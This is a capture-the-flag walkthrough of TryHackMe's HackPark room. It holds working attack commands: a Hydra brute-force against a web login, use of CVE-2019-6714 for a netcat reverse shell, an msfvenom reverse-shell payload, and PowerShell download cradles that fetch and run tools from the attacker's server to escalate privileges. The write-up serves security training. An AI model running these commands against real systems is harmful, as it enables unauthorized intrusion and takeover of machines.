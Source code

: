 # HackPark

**Room Link:** [https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)



### Using Hydra to brute-force a login

**What request type is the Windows website login form using?**

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Crafting request for Hydra**

Sent a failed login request to Burp to see what it would look like. With this info I was able to craft my request for hydra. I just needed to get the URL and everything that is sent after VIEWSTATE and just change the input to use ^USER^ and ^PASS^ to brute force these fields.

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

I could also do this without burp by just opening the console and getting the info from there

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

`hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.110.93 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=vvTqZ%2FG4tEKhQoxeTpJ%2FyGxM9ZY9ZIvd6YMUS%2BoY3uaQCjC%2BJRdlkd8rbIQsDHztL%2BjsAvOLJhxU7vTNo3GP%2FLEmsndGPNAlCDn%2FB%2FrK2ynp9QkhRe9iqKBUmM5FQT2kX%2Bg%2BfPDNnTuzqW5IlmTujw4sLEzbvvec9FDW4cbQevgTj1tHnKx0vMmkVah5imro0o%2BHvQ5%2FGvpafEs1NdnW6wrSsUFuXnYzletKCdLG%2FgSb7bCDOK4ukZK%2F1cMOgYtjOCU4gk4M7PhQcYZmGpAN7pPVCMpX2YwGnTSgBPPmCB6avoLqG5jRS%2F3PYMjsqEGcD9P9S555GMQPxtfyvOEaJw%2B%2BZELKU2yVYr4uWxamEITsWNAT&__EVENTVALIDATION=Tp%2B5DS80H3PFB8ipJ24uKyHkPhSkqKD7GFJlc2U6IaO61l68aholdIjrZJ%2FsotSi0QxRBQjayWovmb2SU%2Fk6lY%2BOpju62jOGDkAvqcdNsqGrgf3vrAYw88XT2ONABFvDTR771I2YAr7JylJ0HbBZV83nGvvXWSC6rmKDGn80%2FuszTjDZ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V`

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p>Credentials found</p></figcaption></figure>

### Compromise the machine

**Now you have logged into the website, are you able to identify the version of the BlogEngine?**

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

**What is the CVE?**

CVE-2019-6714

**Exploit Link:** [https://www.exploit-db.com/exploits/46353](https://www.exploit-db.com/exploits/46353)

**Using the public exploit, gain initial access to the server. Who is the webserver running as?**

Created the file mentioned in the exploit, just changed the IP to my IP.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Setup a nc listener&#x20;

`rlwrap nc -lvnp 4445`

Upload the file

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Navigate to the link and the nc listener should have caught it

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### **Windows Privilege Escalation**

**What is the OS version of this windows machine?**

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Further enumerate the machine. What is the name of the abnormal **_**service**_** running?**

**Check Windows Exploit Suggester**

**Kali**

`git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git`&#x20;

`cd Windows-Exploit-Suggester/`&#x20;

`python3.9 windows-exploit-suggester.py --update`&#x20;

`python3.9 windows-exploit-suggester2.py --database 2022-12-03-mssb.xls --systeminfo systeminfo.txt`

**Transfer WinPeas**

**Kali**&#x20;

`wget https://github.com/carlospolop/PEASS-ng/releases/download/20221127/winPEASx64.exe`&#x20;

`python2 -m SimpleHTTPServer 81`

**Victim**&#x20;

`cd C:\Windows\Temp`

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/winPEASx64.exe','winPEASx64.exe')"`&#x20;

`winPEASx64.exe`

``![](<../../.gitbook/assets/image (25).png>)``

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

`cd C:\Program Files (x86)\SystemScheduler\Events`

`type 20198415519.INI_LOG.txt`

We can see Message.exe is kept being ran by Administrator so we just need to replace the file with our reverse shell, setup a listener and wait for the Administrator to try to run it.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Message.exe is called by Administrator </p></figcaption></figure>



**Kali**&#x20;

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.13.45 LPORT=1337 -f exe -o Message.exe`&#x20;

`python2 -m SimpleHTTPServer 81 rlwrap nc -lvnp 1337`

**Victim**&#x20;

`cd`` `**``**` ``C:\Program Files (x86)\SystemScheduler`&#x20;

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.13.45:81/Message.exe','Message.exe')"`

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
